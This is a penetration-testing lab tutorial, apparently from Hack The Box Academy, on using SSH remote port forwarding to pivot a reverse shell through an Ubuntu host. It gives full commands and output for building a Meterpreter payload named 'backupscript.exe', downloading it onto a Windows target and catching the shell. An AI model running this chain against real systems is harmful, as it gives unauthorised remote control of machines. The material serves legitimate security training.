 # Remote/Reverse Port Forwarding with SSH

We have seen local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host. But sometimes, we might want to forward a local service to the remote port as well. Let's consider the scenario where we can RDP into the Windows host `Windows A`. As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.

But what happens if we try to gain a reverse shell?

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

### **Creating a Windows Payload with msfvenom**

```shell-session
al1abb@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### **Configuring & Starting the multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

### **Transferring Payload to Pivot Host (AttackBox -> Ubuntu)**

```shell-session
al1abb@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

### **Starting Python3 Webserver on Pivot Host (Ubuntu)**

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

### **Downloading Payload on the Windows Target (Ubuntu -> Windows)**

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

### **Using SSH -R**

```shell-session
al1abb@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

### **Viewing the Logs from the Pivot**

```shell-session
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

### **Meterpreter Session Established**

```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.

<figure><img src="../../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

In addition to answering the challenge questions, practice this technique and try to obtain a reverse shell from the Windows target.
